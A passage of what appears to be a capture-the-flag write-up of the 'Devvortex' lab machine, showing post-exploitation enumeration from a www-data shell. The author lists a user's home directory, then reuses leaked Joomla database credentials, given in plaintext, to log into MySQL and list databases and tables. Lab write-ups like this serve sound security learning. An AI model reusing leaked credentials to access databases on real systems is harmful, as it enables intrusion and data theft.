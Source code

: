     
    
    www-data@devvortex:/home$ ls -la logan/
    total 28
    drwxr-xr-x 3 logan logan 4096 Nov 21 11:04 .
    drwxr-xr-x 3 root  root  4096 Sep 26  2023 ..
    lrwxrwxrwx 1 root  root     9 Oct 26 14:58 .bash_history -> /dev/null
    -rw-r--r-- 1 logan logan  220 Sep 26  2023 .bash_logout
    -rw-r--r-- 1 logan logan 3771 Sep 26  2023 .bashrc
    drwx------ 2 logan logan 4096 Oct 26 15:12 .cache
    -rw-r--r-- 1 logan logan  807 Sep 26  2023 .profile
    -rw-r----- 1 root  logan   33 Apr 22 22:12 user.txt
    

#### SQL

There is a logan user in Joomla, and I already have the MySQL connection
information from the leak of:

  * Database: joomla
  * User: lewis
  * Password: P4ntherg0t1n5r3c0n##
  * Host: localhost

I’ll connect:

    
    
    www-data@devvortex:~$ mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla
    ...[snip]...
    mysql>
    

There are no other interesting databases:

    
    
    mysql> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | joomla             |
    | performance_schema |
    +--------------------+
    3 rows in set (0.00 sec)
    

There are 71 tables in `joomla`:

    
    
    mysql> show tables;
    +-------------------------------+
    | Tables_in_joomla              |
    +-------------------------------+
    | sd4fg_action_log_config       |
    | sd4fg_action_logs             |
    | sd4fg_action_logs_extensions  |
    | sd4fg_action_logs_users       |
    | sd4fg_assets                  |
    | sd4fg_associations            |
    | sd4fg_banner_clients          |